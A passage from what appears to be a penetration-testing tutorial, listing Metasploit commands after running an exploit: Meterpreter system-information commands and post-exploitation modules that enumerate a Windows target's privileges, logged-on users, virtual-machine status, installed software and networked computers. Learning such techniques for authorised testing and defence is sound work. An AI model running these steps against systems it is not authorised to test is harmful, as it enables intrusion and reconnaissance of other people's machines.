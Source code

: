 4. Run the exploit:

    ```bash
    run
    ```

5. Once you have access, check basic system information:

    ```bash
    sysinfo
    getuid
    ```

#### Step 2: Automated Enumeration with Metasploit

Once you have a **Meterpreter session**, you can use several **Metasploit post-exploitation modules** to automate local enumeration on the target.

1. **Show mounted drives**:

    ```bash
    show_mount
    ```

2. Background the session:

    ```bash
    background
    ```

3. Useful MSF enumeration modules:

    - **Enumerate user privileges**:

        ```bash
        use post/windows/gather/win_privs
        ```

    - **Enumerate logged-on users**:

        ```bash
        use post/windows/gather/enum_logged_on_users
        ```

    - **Check if the system is running in a virtual machine**:

        ```bash
        use post/windows/gather/checkvm
        ```

    - **Enumerate installed applications** (useful for identifying potentially vulnerable software):

        ```bash
        use post/windows/gather/enum_application
        ```

    - **Enumerate computers connected to the same network**:

        ```bash
        use post/windows/gather/enum_computers
        ```
